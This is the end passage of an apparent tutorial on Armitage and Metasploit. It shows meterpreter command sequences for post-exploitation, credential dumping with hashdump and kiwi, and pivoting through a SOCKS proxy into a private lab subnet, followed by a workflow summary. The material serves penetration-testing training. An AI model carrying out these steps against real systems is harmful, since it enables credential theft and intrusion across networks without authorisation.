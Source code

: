 ```

# 5) Post-exploitation
sessions -i 1
sysinfo && getuid && ps
migrate <pid>
background
use post/multi/recon/local_exploit_suggester
set SESSION 1
run

# 6) Loot
sessions -i 1
hashdump
load kiwi
creds_all

# 7) Pivot
run autoroute -s 192.168.56.0/24
background
use auxiliary/server/socks_proxy
set VERSION 4a
set SRVHOST 127.0.0.1
set SRVPORT 1080
run -j
echo "socks4 127.0.0.1 1080" | sudo tee -a /etc/proxychains.conf
proxychains -q nmap -sT -Pn -n -p 80,445 192.168.56.0/24
```

## Summary
- Armitage streamlines Metasploit by visualizing hosts, suggesting attacks, and managing sessions; it’s useful for learning but often replaced by msfconsole in modern setups.
- The core workflow: scan/import → find attacks → execute exploit → meterpreter post-exploitation → optional pivoting → cleanup.
- Focus on correct module selection, proper LHOST/LPORT, and stability steps (migrate) once a session is obtained.
- Use post modules for escalation and loot; pivot via autoroute + SOCKS + proxychains.
- Avoid “Hail Mary” in real environments; be deliberate, verify with check, and maintain an audit trail for cleanup.